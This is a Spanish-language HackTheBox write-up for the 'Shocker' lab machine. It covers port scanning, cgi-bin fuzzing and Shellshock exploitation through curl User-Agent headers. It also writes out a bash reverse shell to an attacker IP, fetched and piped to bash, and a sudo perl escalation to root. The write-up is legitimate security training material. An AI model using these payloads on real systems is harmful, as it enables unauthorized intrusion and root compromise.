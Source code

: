 ```yaml
---
layout      : post
title       : "HackTheBox - Shocker"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108banner.png
category    : [ htb ]
tags        : [ shellshock, sudo, perl ]
---
```

Máquina Linux nivel fácil, nos dará un **shock** (?) al encontrarnos la vulnerabilidad **Shellshock** (muy linda) y lograr ejecutar comandos en el sistema. Después jugando con los permisos de usuario podremos obtener una sesión como **root** explotando el binario **Perl.

![108shockerHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108shockerHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [mrb3n](https://www.hackthebox.eu/profile/2984).

HOLAAAAAAAAAAAA e.e

Bueno, será una ruta sencilla y acogedora :3 Nos encontraremos un servicio web el cual tiene el directorio `cgi-bin` y dentro un archivo `user.sh`, indagando veremos que podemos relacionar lo encontrado con una vulnerabilidad llamada **Shellshock**, jugando con ella lograremos ejecutar comandos en el sistema como el usuario **shelly**, lo usaremos para entablarnos una reverse Shell.

Estando dentro y validando los permisos que tenemos como **shelly** ante otros usuarios (`sudo -l`), veremos que podemos ejecutar el binario `/usr/bin/perl` como el usuario **root**, con la ayuda del repositorio [GTFOBins](https://gtfobins.github.io/) (e internet :P) lograremos obtener una (dos, tres, las que quieras) Shell como **root** en la máquina (:

#### Clasificación de la máquina

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme (o talvez no) :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto), todo desde una perspectiva más de enseñanza que de solo plasmar lo que hice.

...

¿Khe vamo hace'? 🤔

1. [Enumeración](#enumeracion).
2. [Explotación](#explotacion).
3. [Escalada de privilegios](#escalada-de-privilegios).

...

## Enumeración [#](#enumeracion) {#enumeracion}

Realizamos nuestro escaneo de puertos para saber que servicios está corriendo la máquina:

```bash
❭ nmap -p- --open -v 10.10.10.56 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535                      |
| --open     | Solo los puertos que están abiertos          |
| -v         | Permite ver en consola lo que va encontrando |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/Writeups/master/HTB/Magic/images/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard |

```bash
❭ cat initScan 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: initScan
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.80 scan initiated Thu Apr 22 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.56
   2   │ # Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
   3   │ Host: 10.10.10.56 ()    Status: Up
   4   │ Host: 10.10.10.56 ()    Ports: 80/open/tcp//http///, 2222/open/tcp//EtherNetIP-1///
   5   │ # Nmap done at Thu Apr 22 25:25:25 2021 -- 1 IP address (1 host up) scanned in 163.27 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Listos, tenemos:

| Puerto | Descripción |
| ------ | :---------- |
| 80     | **[HTTP](https://www.techopedia.com/definition/15709/port-80)**                         |
| 2222   | Por ahora no lo sabemos, pero podemos pensar en que pueda estar relacionado con **SSH** |

Ahora hagamos un escaneo de scripts y versiones, así tenemos profundizamos en cada puerto:

```bash
❭ nmap -p80,2222 -sC -sV 10.10.10.56 -oN portScan
```

| Parámetro | Descripción |
| ----------|:----------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
❭ cat portScan 
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: portScan
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.80 scan initiated Thu Apr 22 25:25:25 2021 as: nmap -p80,2222 -sC -sV -oN portScan 10.10.10.56
   2   │ Nmap scan report for 10.10.10.56
   3   │ Host is up (0.19s latency).
   4   │ 
   5   │ PORT     STATE SERVICE VERSION
   6   │ 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
   7   │ |_http-server-header: Apache/2.4.18 (Ubuntu)
   8   │ |_http-title: Site doesn't have a title (text/html).
   9   │ 2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
  10   │ | ssh-hostkey: 
  11   │ |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
  12   │ |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  13   │ |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  14   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  15   │ 
  16   │ Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  17   │ # Nmap done at Thu Apr 22 25:25:25 2021 -- 1 IP address (1 host up) scanned in 17.76 seconds
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Obtenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :------ |
| 80     | HTTP     | Apache httpd 2.4.18 |
| 2222   | [SSH](https://blog.desdelinux.net/configurar-ssh-por-otro-puerto-y-no-por-el-22/) | (Confirmamos) OpenSSH 7.2p2 |

¡Listo, a darle pues!

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

![108page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108page80.png)

Jmm, nada interesante, validando el código fuente tampoco vemos nada, hagamos fuzzing a ver si hay algo escondido a la vista:

```bash
❭ dirsearch.py -u http://10.10.10.56/ -q
403 -  297B  - http://10.10.10.56/.ht_wsr.txt
403 -  300B  - http://10.10.10.56/.htaccess.bak1
403 -  300B  - http://10.10.10.56/.htaccess.orig
403 -  302B  - http://10.10.10.56/.htaccess.sample
403 -  300B  - http://10.10.10.56/.htaccess.save
403 -  298B  - http://10.10.10.56/.htaccessBAK
403 -  298B  - http://10.10.10.56/.htaccessOLD
403 -  301B  - http://10.10.10.56/.htaccess_extra 
403 -  299B  - http://10.10.10.56/.htaccessOLD2
403 -  300B  - http://10.10.10.56/.htaccess_orig
403 -  298B  - http://10.10.10.56/.htaccess_sc
403 -  290B  - http://10.10.10.56/.htm
403 -  291B  - http://10.10.10.56/.html
403 -  300B  - http://10.10.10.56/.htpasswd_test
403 -  296B  - http://10.10.10.56/.htpasswds
403 -  297B  - http://10.10.10.56/.httr-oauth
403 -  294B  - http://10.10.10.56/cgi-bin/
200 -  137B  - http://10.10.10.56/index.html
403 -  299B  - http://10.10.10.56/server-status
```

Nada relevante a la vista, pero profundizando en lo único que tenemos, vemos el directorio `cgi-bin/`, entendamos de que se trata:

> **CGI** (Common Gateway Interface) es un método por el cual un servidor web puede interactuar con programas externos de generación de contenido, a ellos nos referimos comúnmente como programas CGI o scripts CGI. Es el método más común y sencillo de mostrar contenido dinámico en su sitio web. [Apache - CGI](https://httpd.apache.org/docs/trunk/es/howto/cgi.html).

Entonces el servidor envía las solicitudes del cliente a un programa externo, el programa en cuestión puede estar escrito en cualquier lenguaje que sea soportado pro el servidor, que por lo general son lenguajes de scripting.

> El **CGI** es utilizado comúnmente para contadores, bases de datos, motores de búsqueda, formulários, generadores de email automático, foros de discusión, chats, comercio electrónico, rotadores y mapas de imágenes, juegos en línea y otros. Esta tecnología tiene la ventaja de correr en el servidor cuando el usuario lo solicita por lo que es dependiente del servidor y no de la computadora del usuario. [CGI Intro](http://www.maestrosdelweb.com/cgiintro/).

Bien, hablan de scripts y programas alojados por el recurso `cgi`, así que podemos probar un fuzz sobre el recurso...

Pero no encontramos nada, si recordamos nos hablaban de lenguajes de scripting, entonces podemos probar a crearnos un archivo con extensiones de lenguajes y volver a validar el fuzzeo:

> [Encontrar URL del cgi-bin](https://www.neoguias.com/como-saber-la-url-de-cgi-bin/) (vemos algunos lenguajes para tener en cuenta).

```bash
❭ cat extensions.txt 
───────┬──────────────────────────────────────
       │ File: extensions.txt
───────┼──────────────────────────────────────
   1   │ php
   2   │ sh
   3   │ bash
   4   │ cgi
   5   │ pl
   6   │ c
   7   │ ccp
   8   │ py
───────┴──────────────────────────────────────
```

Y ahora con `wfuzz`:

```bash
❭ wfuzz -c --hc=404 -w /opt/SecLists/Discovery/Web-Content/common.txt -w extensions.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```

Donde el primer **FUZZ** hace referencia a cada linea del archivo `common.txt` y el segundo **FUZZ (FUZ2Z)** a cada linea del archivo `extensions.txt`:

```bash
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
Total requests: 37264

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
...
...
...
000034130:   200        7 L      17 W       118 Ch      "user - sh"
```

Perfecto, tenemos un archivo llamado `user.sh`, si lo visitamos desde la web nos lo descarga, su contenido es simplemente:

```bash
❭ cat user.sh 
───────┬─────────────────────────────────────────────────────────────────────
       │ File: user.sh
───────┼─────────────────────────────────────────────────────────────────────
   1   │ Content-Type: text/plain
   2   │ 
   3   │ Just an uptime test script
   4   │ 
   5   │  12:36:04 up  1:35,  0 users,  load average: 0.00, 0.01, 0.00
───────┴─────────────────────────────────────────────────────────────────────
```

Jmmm, pero ¿qué podemos hacer con esto? Haciendo una búsqueda sencilla en Google como "**cgi-bin exploit**" obtenemos un montón de respuestas hablando de una vulnerabilidad llamada **Shellshock**, profundizando...

#### Shellshock

Me gusto esta intro de [securityhacklabs](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit) para explicar **Apache** y **CGI**, así que me la robo :P

> Apache es un servidor web multiplataforma de código abierto desarrollado por la Apache Software Foundation. Es robusto con características tales como alojamiento virtual, esquemas de autenticación, SSL y TLS, mensajes de error personalizados y compatibilidad con múltiples lenguajes de programación. Apache también tiene un módulo llamado mod_cgi que maneja la ejecución de scripts de Common Gateway Interface (CGI). [Explotando Shellshock](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit).

Shellshock como su nombre nos spoilea, se basa en la Shell (en términos entendibles en la famosa **bash**), un intérprete que esta por lo general en todos los sistemas ***Unix**. Lo que hace la vulnerabilidad es aprovechar las variables de entorno para definir funciones y jugar a agregar comandos así la función ya se haya terminado de procesar :P

Pa leer: 

* [Shellshock, la grave vulnerabilidad en Bash](https://www.welivesecurity.com/la-es/2014/09/26/shellshock-grave-vulnerabilidad-bash/).
* [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271).
* [Shellshock - como explotarla en remoto](https://empresas.blogthinkbig.com/shellshock-como-se-podria-explotar-en/).
* [Exploit Bash Shellshock](https://nikhilh20.medium.com/exploit-bash-shellshock-part-1-ad1636acaf9e).

...

## Explotación [#](#explotacion) {#explotacion}

Entonces, podemos validar esta vulnerabilidad de manera sencilla mediante **cURL** probando cositas de [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-web/cgi):


```bash
❭ curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh
```

Y nos responde:

```html
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```

Podríamos pensar que no es vulnerable, pero leyendo más posts encontramos que si le agregamos más definiciones de `echo;` antes de lo que queremos ejecutar puede llegar a rular (servir):

* [Exploiting Shellshock (with extra **echo;**)](https://www.sevenlayers.com/index.php/125-exploiting-shellshock).

```bash
❭ curl -H 'User-Agent: () { :; }; echo; echo "VULNERABLE TO SHELLSHOCK"' http://10.10.10.56/cgi-bin/user.sh
```

Y responde:

```bash
VULNERABLE TO SHELLSHOCK

Content-Type: text/plain

Just an uptime test script

 13:25:00 up  2:23,  0 users,  load average: 0.00, 0.00, 0.00
```

Bien, probablemente tenemos ejecución de comandos, validemos el `id` del usuario que esté ejecutando el servicio web:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/id' http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

Perfectooooooooooooooooooooo 😯, confirmado. Ahora simplemente intentemos entablar una Reverse Shell ;)

Validamos que exista **cURL** en la máquina:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/which curl' http://10.10.10.56/cgi-bin/user.sh
/usr/bin/curl
```

Nos creamos un archivo que tenga los comandos que queramos ejecutar, para que cuando hagamos la petición desde la máquina a él le pasemos el binario `bash` al final y así interprete el contenido:

```bash
❭ cat rev.sh 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.10.14.15/4433 0>&1
```

Levantamos un server web:

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y nos ponemos en escucha:

```bash
❭ nc -lvp 4433
listening on [any] 4433 ...
```

Y desde el Shellshock le indicamos:

```bash
❭ curl -H 'User-Agent: () { :; }; echo; /usr/bin/curl http://10.10.14.15:8000/rev.sh | /bin/bash' http://10.10.10.56/cgi-bin/user.sh
```

Y obtenemos:

![108bash_shellshock_shelly_revsh](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108bash_shellshock_shelly_revsh.png)

Una sesión como **shelly** :) Hagamos tratamiento de la TTY rápidamente (hay varias formas, a mí me gusta de la siguiente), así evitamos perder la consola si damos **CTRL + C** y además podemos movernos cómodamente entre comandos:

1. En la Shell escribimos: `script /dev/null -c bash`.
2. Ahora hacemos `CTRL + Z`, lo que enviara la Shell a un estado "en pausa" por así decirlo y nos llevara a nuestra terminal normalita.
3. Escribimos: `stty raw -echo; fg`.
4. Escribimos: `reset`.
5. Escribimos: `xterm`.
6. **Ya tendríamos nuestra Shell interactiva, pero arreglemos unos valores y el tamaño de la terminal:**
7. Escribimos: `export TERM=xterm`.
8. Escribimos: `export SHELL=bash`.
9. Abrimos una nueva terminal de tamaño completo y escribimos `stty -a`, tomamos esos valores y en la Shell de la máquina escribimos: `stty rows <rows> columns <columns>`, validamos que el tamaño esté bien ejecutando `nano`. (Podrías validar el `nano` también antes de hacer esto, así vez el cambio).

Sigamos...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Si vemos que [permisos](https://unix.stackexchange.com/questions/596542/what-is-the-use-of-sudo-l-command) tiene **shelly** para ejecutar comandos en el sistema como otros usuarios encontramos:

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Puede ejecutar el binario `/usr/bin/perl` como el usuario **root** sin necesidad de ingresar contraseña, esto mediante [sudo](https://www.linuxtotal.com.mx/index.php?cont=info_admon_014).

Si vamos al [repo (GTFOBins)](https://gtfobins.github.io/gtfobins/perl/#sudo) que tiene un montoooooooon de info sobre como explotar vaaarios binarios, nos encontramos con:

![108google_gtfobins_sudoPerl](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108google_gtfobins_sudoPerl.png)

Bien, sencillamente pasándole esa instrucción deberíamos obtener una Shell como el usuario (en este caso) **root**, probemos:

```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/bash";'
```

![108bash_exploit_sudoPerl_rootSH](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108bash_exploit_sudoPerl_rootSH.png)

Perfectoooo, ya seriamos **root** y podríamos hacer lo que quisiéramos

**(Claramente puedes jugar con [reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl) de** perl **y demás cositas para entablar una sesión como** root **, es cuestión de jugar y no quedarse solo con una opción.)**

Solo nos quedaría ver las flags...

![108flags](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/shocker/108flags.png)

...

Super interesante la vulnerabilidad del **Shellshock**, ya siempre que encontremos un directorio `cgi-bin/` sabemos que debemos buscar posiblemente algo relacionado con ella y además aprendimos que puede parecer que ha fallado, pero simplemente deberíamos agregarle la sentencia `echo;` e ir probando :P

Y weno, como siempre muchísimas gracias por pasarse yyyyyyyyyyyyy a seguir rompiendo todo!! ❤️